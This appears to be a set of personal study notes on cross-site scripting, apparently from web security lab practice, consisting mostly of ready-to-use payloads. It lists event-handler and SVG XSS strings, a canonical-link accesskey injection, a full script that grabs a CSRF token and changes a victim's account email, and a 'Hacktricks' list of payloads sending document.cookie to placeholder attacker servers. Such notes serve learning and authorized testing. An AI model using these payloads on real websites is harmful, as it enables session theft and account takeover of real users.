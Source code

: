 Stored:
```
Check for hrefs: javascript:alert(1)
Check for str.replace: <> <img...
```

Banned tags:
use brute force of tag, and event with the cheatlist
![[Pasted image 20240303170455.png]]

Custom Tags:
![[Pasted image 20240303233054.png]]
```
<custom-tag onmouseover=alert(1)> (user interaction)
<xss id=x onmouseover=alert(document.cookie) tabindex=1> (user interaction)
GOD:
<xss autofocus tabindex=1 onfocusin=alert(document.cookie)></xss>
<custom-tag autofocus tabindex=1 onfocusin=alert(document.cookie)></xss>

svg markup:
<svg><animatetransform onbegin=alert(1) attributeName=x dur=1s>
```

Custom exceptions:
```
-> <link rel="canonical" href="https://example.com/page" />
Param reflected ex: <link rel="canonical" href="https://example.com/page?param" />
?'accesskey='x'onclick='alert(1) (required ALT+X /  ALT+SHIFT+X)
```
![[Pasted image 20240304112343.png]]
XSS + CSRF
```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```




----- Hacktricks XSS----
```
<img src=x onerror=fetch(`https://COLLABORATOR.com?collector=`+btoa(document.cookie))>

<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>

<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">

<svg/onload=fetch(`//YOUR-COLLABORATOR-PAYLOAD/${encodeURIComponent(document.cookie)}`)>

<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>

<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>

<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>

<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>

```